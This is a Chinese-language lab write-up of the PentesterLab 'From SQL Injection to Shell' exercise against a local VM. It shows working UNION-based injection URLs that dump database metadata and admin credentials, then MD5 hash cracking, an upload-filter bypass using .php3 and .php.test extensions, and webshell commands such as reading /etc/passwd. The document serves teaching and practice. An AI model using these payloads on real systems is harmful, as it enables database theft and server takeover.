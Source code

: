 # From SQL Injection to Shell  

### SQL Injection 攻击原理   
- 基于B/S应用开发模式编写应用程序，在编写代码的时候，没有对用户输入数据的合法性进行判断，使应用程序存在安全隐患   
- 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据  
- SQL注入是从正常的WWW端口访问，而且表面看起来跟一般的Web页面访问没什么区别。  

### 基本思路   
- 收集web开发的基本信息  
- 检测并利用SQL注入检索信息
- 获取管理员权限并执行代码  

### 实验环境   
- 服务器采用的是Pentesterlab封装好的镜像来进行搭建，采用的是debian的系统。  
- 攻击方可采用kali、Windows等多种系统。     

### 实验过程
- **通过调查分析得知目标是基于PHP开发的网站**   
- **SQL注入漏洞的判断**  
一般来说，SQL注入一般存在于形如："HTTP://xxx.xxx.xxx/abc.asp?id=XX" 等带有参数的ASP、PHP等动态网页中，有时一个动态网页中可能只有一个参数，有时可能有N个参数，有时是整型参数，有时是字符串型参数，不能一概而论。总之只要是带有参数的动态网页且此网页访问了数据库，那么就有可能存在SQL注入  
**1.整型参数的判断**  
  
**2.字符串型参数的判断**  
  
- **利用关键词UNION检索信息**  
为了执行一个SQL注入请求，需要知道查询第一部分返回的列数  
两种方法：  
1.使用UNION SELECT语句并增加列数。如果UNION语句连接的两个查询返回的列数不同，数据库会报错。因此可以通过这个方法来猜测列数  
**示例：**  
  列数不同时会报错： 
![](image/1.jpg)  
列数相同时则能正常显示：  
http://localhost/cat.php?id=1%20union%20select%201,2,3,4  
说明该页面的列数为4  
2.使用ORDER BY 语句，返回的结果会根据ORDER BY 语句选择的列进行排序，ORDER BY后可以是列名，也可以是第几列的数字，如果列数超出现有值，数据库会报错。因此可以通过这个方法可以找到最后一列  
**示例**  
列数小于等于页面列数时，可以正常显示  
列数大于页面列数时，会报错：  
http://localhost/cat.php?id=1%20order%20by%205  
![](image/2.jpg)  
- **基于所收到的错误消息，得知所使用的后台数据库是MySQL**  
利用这些信息，可以强制数据库执行一个函数或发送信息给我们  
两种方法：  
1.使用current_user()语句，用来取得 MySQL 当前使用者名称 
2.使用version()语句，得到数据库版本号  
**示例：**  
**the database version:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4  
http://localhost/cat.php?id=1%20union%20select%201,version%28%29,3,4  
![](image/3.jpg)  
   **the current user:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4  
![](image/4.jpg)  
**the current database:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,database(),3,4  
![](image/5.jpg)  
 **利用返回的meta-information构建最终请求**  
从MySQL版本5开始，MySQL提供关于数据库、表、列的meta-information，这些信息储存在information_schema数据库里  
得到列与其对应的表  
**the list of tables:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,table_name,3,4%20FROM%20information_schema.tables
![](image/6.jpg)  
**the list of columns:**http://localhost/cat.php?id=1%20UNION%20SELECT%201,column_name,3,4%20FROM%20information_schema.columns  
![](image/7.jpg)
 **利用查询语句得到管理员账号与密码**  
- 获取用于访问管理页面的用户名和密码：http://localhost/cat.php?id=1%20UNION%20SELECT%201,concat(login,%27:%27,password),3,4%20FROM%20users  
 ![](image/8.jpg)  
 **利用网络查询或密码破解工具得到密码明文**  
- [md5在线解密破解（需要付费）](http://www.cmd5.com/)  
 ![](image/9.jpg) 
- [md5在线解密破解](http://pmd5.com/) 
 ![](image/10.jpg)  
**根据已知的账号密码成功登录到管理员界面：**
 ![](image/11.jpg) 
**上传webshell和执行代码获取管理员权限**  
webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的  
- 用账号密码登陆网站，找到上传文件位置，上传一个 php 脚本  
![](image/12.jpg)  
![](image/13.jpg)  
![](image/14.jpg)  
我们可以看到这个脚本没有在服务器上正确上传。应用防止文件扩展名.PHP上传。然而，我们可以尝试：  
- .PHP3这将绕过简单的.php过滤器  
- .php.test这将绕过简单的.php过滤器，但Apache仍会将它视作.php文件，因为配置中没有对于.test文件的处理器。  
![](image/15.jpg)  
修改后可以成功上传  
打开上传的图片，通过查看该页面的源代码，得到图片的URL  
![](image/16.jpg)  
访问http://localhost/admin/uploads/shell.php3?cmd=uname将运行在操作系统的命令信息并返回当前的内核（Linux）  
![](image/17.jpg)  
其他命令可以用来检索更多的信息：  
cat /etc/passwd 来得到系统的完整的用户列表  
![](image/18.jpg) 
uname -a 获取当前的内核版本  
![](image/19.jpg)
ls 获取当前目录的内容  
![](image/20.jpg)
###参考资料  
1. [pentesterlab course](https://pentesterlab.com/exercises/from_sqli_to_shell/course)  
2. [WIKIPEDIA SQL injection](https://en.wikipedia.org/wiki/SQL_injection)
3. [百度百科 SQL注入攻击](http://baike.baidu.com/view/983303.htm)
4. [各种博客](http://www.myhack58.com/Article/html/3/7/2014/44097.htm)  
###试验中出现的问题
当宿主机出于不能无网络连接时，用虚拟机打开网站端系统，设置中如果选择‘桥接网卡’则无法在宿主机上通过http://localhost/查找到页面，但是通过NAT模式，仅主机（Host-Only）适配器模式则可以打开页面。  
####原因：  
在桥接网卡模式下，虚拟出来的操作系统就像是局域网中的一台独立的主机，它可以访问网内任何一台机器。在此模式下，需要手工为虚拟系统配置IP地址、子网掩码、而且还要和宿主机出于同一网段，这样虚拟系统才能和宿主机器进行通信。 **虚拟机有独立的IP**  
 NAT(网络地址转换模式)，虚拟机借助NAT（网络地址转换）功能，通过宿主机所在的网络来访问公网。NAT模式下的虚拟系统的TCP/IP配置信息是由VMnet8(NAT)虚拟网络的DHCP服务器提供的，无法进行手工修改，因此虚拟系统无法和本局域网中的其他真是主机进行通信。虚拟机可以访问主机，但主机无法访问到虚拟机。**虚拟机没有自己独立的IP**  
仅主机（Host-Only）适配器模式，用于在无需主机的物理网卡的情况下，创建一个网络，该网络中，只有宿主机和旗下的一些虚拟机。虚拟机和主机之间，就像中间连接了一个物理上的网卡交换机Switch一样，是可以互相通讯的。  

